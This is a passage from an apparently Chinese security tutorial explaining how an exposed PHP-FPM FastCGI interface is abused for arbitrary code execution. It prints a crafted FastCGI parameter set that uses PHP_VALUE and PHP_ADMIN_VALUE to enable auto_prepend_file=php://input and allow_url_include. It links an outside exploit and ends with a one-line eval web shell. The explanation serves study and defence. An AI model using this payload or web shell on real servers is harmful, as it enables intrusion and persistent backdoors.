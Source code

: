 因为前面我们了解了协议原理和内容，接下来就是使用CGI协议封装请求，通过Socket来直接与FPM通信。

但是能够构造Fastcgi，就能执行任意PHP代码吗？答案是肯定的，但是前提是我们需要突破几个限制。

**第一个限制**

既然是请求，那么`SCRIPT_FILENAME`就相当的重要，因为前面说过，fpm是根据这个值来执行PHP文件文件的，如果不存在，会直接返回404，所以想要利用好这个漏洞，就得找到一个已经存在的PHP文件，好在一般进行源安装PHP的时候，服务器都会附带上一些PHP文件，如果说我们没有收集到目标Web目录的信息的话，可以试试这种办法.

**第二个限制**

即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。那要如何绕过这种限制呢？我们可以从`php.ini`入手。它有两个特殊选项，能够让我们去做到任意命令执行，那就是`auto_prepend_file`和`auto_append_file`。`auto_prepend_file`的功能是在执行目标文件之前，先包含它指定的文件。那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何PHP文件前都要包含一遍POST过去的内容。所以，我们只需要把待执行的代码放在POST Body中进行远程文件包含，这样就能做到任意代码执行了。

**第三个限制**

我们虽然可以通过远程文件包含执行任意代码，但是远程文件包含是有`allow_url_include`这个限制因素的，如果没有为`ON`的话就没有办法进行远程文件包含，那要怎么设置呢? 这里，PHP-FPM有两个可以设置PHP配置项的KEY-VALUE，即`PHP_VALUE`和`PHP_ADMIN_VALUE`，`PHP_VALUE`可以用来设置php.ini，`PHP_ADMIN_VALUE`则可以设置所有选项（disable_functions 选项除外），这样就解决问题了。

所以，我们最后最后构造的请求如下：

```php
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/name.php',
    'SCRIPT_NAME': '/name.php',
    'QUERY_STRING': '?name=alex',
    'REQUEST_URI': '/name.php?name=alex',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '6666',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

该请求设置了`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码了。

这里附上P神的EXP：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

**利用方法：**

源码

```php
<?php
@eval($_REQUEST['ant']);
show_source(__FILE__);
?>
```
